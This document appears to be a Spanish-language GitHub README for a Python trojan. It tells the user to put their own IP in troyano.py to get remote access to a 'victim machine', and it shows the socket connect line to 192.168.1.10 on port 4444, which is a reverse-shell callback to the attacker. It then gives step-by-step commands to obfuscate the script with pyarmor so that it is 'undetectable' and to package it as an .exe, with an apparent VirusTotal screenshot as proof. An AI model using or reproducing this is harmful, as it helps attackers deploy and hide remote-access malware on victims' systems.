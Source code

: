 # Troyano

<p align="center">
<img src="Logotipo.png">
</p>

Un troyano es un tipo de software malicioso que se disfraza de una aplicación legítima o atractiva para engañar a los usuarios y ganar acceso no autorizado a sus sistemas o dispositivos.

### Instalación

Descargar el repositorio de Github luego configurar el script **troyano.py** con tu IP para poder tener acceso remoto a la maquina victima

```python
conexion.connect(("192.168.1.10", 4444))
```


### Ofuscacion

Para hacer indetectable el troyano deberes instalar **pyarmor**

```
pip install pyarmor
```

Ahora ofuscamos el troyano con el siguiente comando:

```
pyarmor gen troyano.py
```

Luego de esto nos creara una carpeta Dist con el troyano ofuscado, por ultimo convertiremos **.py** a **.exe** con auto-py-to-exe.

```
pip install auto-py-to-exe
```

<p align="center">
<img src="./Img/virustotal.png">
</p>